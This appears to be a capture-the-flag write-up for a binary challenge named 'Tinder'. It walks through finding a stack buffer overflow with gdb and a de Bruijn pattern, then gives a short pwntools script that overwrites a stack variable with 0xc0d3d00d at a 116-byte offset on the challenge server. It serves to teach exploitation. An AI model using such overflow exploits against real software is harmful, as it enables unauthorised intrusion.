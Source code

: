 # Tinder

It gets a bunch of input from us using a function called input that does some multiplication a value, lets call this number "num", and then calls fgets\(var,num,stdin\), basically reading num bytes into "var". By stepping through the program and looking at every function call of input, we see the last one has the largest value, so I just went with that even though they'd all probably work.

Later on, there are some interesting instructions. Namely these two:

```text
cmp DWORD PTR [ebp-0xc], 0xc0d3d00d
jne <main+443>
```

Note that these two lines are at `main+247` - that's quite a jump. It compares some variable on the stack to `0xc0d3d00d` and jumps away if they aren't equal. If they are equal, it goes on to execute some instructions including fopen, fgets, puts etc. - probably printing the flag from flag.txt.

Using gdb, I set a breakpoint at the instruction that compares `ebp-0xc` to `0xc0d3d00d`. Then at the fourth input I pasted in a de brujin pattern generated by pattern.py. At the breakpoint, I read `ebp-0xc`, and pasted this value back into pattern.py. This gives 116 bytes until we overwrite this variable, so our payload is just

```text
enter whatever you want into the first three inputs
enter 116 bytes + p32(0xc0d3d00d) on the fourth input
Script below, even though this doesnt really need a script(a dynamic one, I mean)
```

```python
from pwn import *
NUM_TO_VAR = 116
padding = b'A' * NUM_TO_VAR
p = remote('p1.ljctf.org',8002)
[p.sendline('t') for _ in range(3)] # If you send nothing it'll rage
payload = padding + p32(0xc0d3d00d)
p.sendline(payload)
p.interactive()
```

